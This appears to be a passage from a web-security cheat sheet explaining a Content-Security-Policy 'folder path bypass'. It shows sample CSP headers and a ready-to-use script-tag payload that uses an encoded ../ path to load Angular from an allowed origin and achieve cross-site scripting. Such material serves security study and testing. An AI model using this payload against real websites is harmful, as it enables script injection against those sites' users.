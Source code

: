 Also known as Folder Path Bypass. If the CSP policy points to a directory that is safe to load scripts from. For example:
```html
<meta http-equiv="Content-Security-Policy" content="script src 'http://target-website.com/scripts/react/'">
```
```http
HTTP/1.1 200 OK
...
Content-Security-Policy: script-src 'http://target-website.com/scripts/react/';
```

An attacker can use the following payload to bypass CSP:
```txt
<script src="https://target-website.com/scripts/react/..%2fangular%2fangular.js"></script>
```

In which the browser would ultimately load `https://target-website.com/scripts/angular/angular.js`, ultimately allowing to use Angular directives to perform XSS.